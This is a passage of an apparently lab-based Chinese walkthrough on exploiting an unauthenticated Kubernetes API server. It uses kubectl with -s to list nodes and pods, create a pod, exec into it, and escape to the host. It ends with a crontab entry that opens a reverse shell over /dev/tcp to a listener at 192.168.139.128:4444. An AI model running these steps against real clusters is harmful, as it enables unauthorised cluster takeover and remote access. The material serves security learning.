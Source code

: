        接下来进一步利用 安装 Kubernetes 命令行工具 kubectl，对 Kubernetes 集群运行命令。你可以使用 kubectl 来部署应用、监测和管理集群资源以及查看日志。https://kubernetes.io/zh-cn/docs/tasks/tools/

```plain
kubectl.exe -s 192.168.17.133:8080 get nodes #同虚机里看到的
kubectl.exe -s 192.168.17.133:8080 get pods 
kubectl -s 192.168.17.133:8080 create -f test.yaml #创建一个 pod
kubectl -s 192.168.17.133:8080 --namespace=default exec -it test bash #进入一个名叫‘test’的容器
```

       未授权访问的情况下，kubectl 可以使用`-s`参数指定 Kubernetes API 服务器地址和端口，直接执行命令创建恶意 Pod，将其挂载到 Master 节点，从而实现对整个集群的接管。

![图片](assets/1711471298-6a4f79814ef2ce1e13b07538411b550c.webp)

![图片](assets/1711471298-39e5602f258d5fcc5a3b4cb578b6b33a.webp)

 成功进入刚创建的 docker 容器 rpdef

![图片](assets/1711471298-51d7f0f1deb0a983e05814bafc01b682.webp)

```plain
echo -e "* * * * * root bash -i >& /dev/tcp/192.168.139.128/4444 0>&1\n" >> /mnt/etc/crontab
```

![图片](assets/1711471298-db8521827e0c5b3f659567bac8945efd.webp)进入容器弹出一个 shell，在另一个虚拟机上开一个监听，成功进行容器逃逸

